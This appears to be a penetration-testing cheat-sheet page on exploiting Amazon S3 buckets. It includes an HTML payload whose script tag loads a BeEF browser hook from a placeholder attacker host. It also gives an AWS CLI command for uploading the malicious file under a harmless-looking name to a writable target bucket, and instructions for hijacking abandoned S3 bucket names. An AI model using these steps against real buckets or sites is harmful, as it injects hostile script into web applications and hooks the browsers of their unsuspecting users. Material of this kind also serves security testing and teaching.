 # S3 exploitation

## S3 code injection

On a writable S3 bucket, create and upload a malicious html file. If a webapplication is pulling data from this bucket, the code will be executed.

### BeeF hook

```bash
<html>
    <head>
    <title>
       Hello from here 
    </title>
    </head>
    <body>
        <p>hook script for BeeF</p>
        <script src="http://attacker_machine:3000/hook.js"></script>
    </body>
</html>
```

### Upload the malicious html file 

```csharp
aws s3 mv my_harmless_file.html s3://target/my_harmless_file.html
```

## S3 hijacking

Search for S3 subdomains which doesn't exist \(404 no suck bucket\)anymore and create it using the same name and region.


